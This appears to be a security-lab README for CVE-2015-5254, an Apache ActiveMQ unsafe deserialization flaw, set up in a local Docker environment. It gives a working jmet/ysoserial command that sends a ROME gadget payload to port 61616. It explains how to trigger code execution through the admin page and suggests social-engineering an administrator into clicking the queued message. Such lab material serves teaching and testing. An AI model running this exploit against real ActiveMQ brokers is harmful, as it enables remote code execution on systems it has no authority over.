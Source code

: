 # ActiveMQ Unsafe Deserialization Vulnerability（CVE-2015-5254）

Apache ActiveMQ is an open source messaging middleware developed by the Apache Software Foundation. It supports Java messaging services, clustering, and Spring Framework.

Apache ActiveMQ 5.x before 5.13.0 does not restrict the classes that can be serialized in the broker, which allows remote attackers to execute arbitrary code via a crafted serialized Java Message Service (JMS) ObjectMessage object.

Reference link:

- https://www.blackhat.com/docs/us-16/materials/us-16-Kaiser-Pwning-Your-Java-Messaging-With-Deserialization-Vulnerabilities.pdf

## Vulnerable environment

Start the vulnerable environment:

```
docker-compose up -d
```

After the environment is started, it will listen on both ports 61616 and 8161. Port 61616 is the vulnerable port we will later send a message to. Port 8161 is the web management page port. You can access the web management page by visiting `http://your-ip:8161`.

## Exploit

The exploit process is as follows:

1. Generate payload (using ysoserial)
2. As a message, send to port 61616
3. Access the web management page and read the queued message, access it to trigger the payload

To exploit this environment we will use [jmet](https://github.com/matthiaskaiser/jmet) Java Message Exploitation Tool.

First download the jar file for jmet, and create folder called `external` in the same directory (otherwise it may display an error that the folder does not exist).

We then use ysoserial to generate a payload and send it (the jmet jar comes with ysoserial, no need to download it separately). We need to choose a payload that can be used in ysoserial as a gadget, such as ROME.

Example:

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME your-ip 61616
```

![](1.png)

At this point, a new event will be added to the target ActiveMQ queue. We can visit `http://your-ip:8161/admin/browse.jsp?JMSDestination=event` to see all the messages in this queue：

![](2.png)

By clicking on this message we trigger the command execution. Next we enter the container and run `docker-compose exec activemq bash`. It can be seen that /tmp/success has been successfully created, indicating that the exploit is successful:

![](3.png)

We can replace the command within the shell statement and reuse it:

![](4.png)

It's worth noting that accessing messages through the web administration page and triggering the vulnerability requires administrator privileges. In the absence of a password, we can attempt to social engineer the administrator into clicking our queued event link.
